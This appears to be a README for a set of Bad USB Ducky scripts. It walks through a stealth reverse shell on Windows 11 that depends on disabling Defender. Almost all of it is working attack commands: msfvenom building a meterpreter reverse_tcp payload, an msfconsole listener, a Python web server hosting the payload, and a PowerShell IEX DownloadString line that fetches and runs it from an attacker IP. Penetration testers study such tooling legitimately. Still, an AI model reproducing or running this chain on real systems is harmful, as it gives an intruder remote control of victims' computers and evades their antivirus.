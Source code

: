 # Various Ducky scripts for Bad USBs
### Can be used for pentesting or administrative tasks.
### Below text applies to the stealth reverse shell.
### Requires Admin privileges to disable Defender. Otherwide payload may be detected.
### Tested on Windows 11 Home 
# On The Attacker's Machine
### Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
### Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
### Start python http server<br/>
python3 -m http.server 80<br/>
### Ducky script will download and execute powershell script opening meterpreter session<br/>
IEX(New-Object System.Net.WebClient).DownloadString('http://IPADDR/PAYLOAD.ps1')


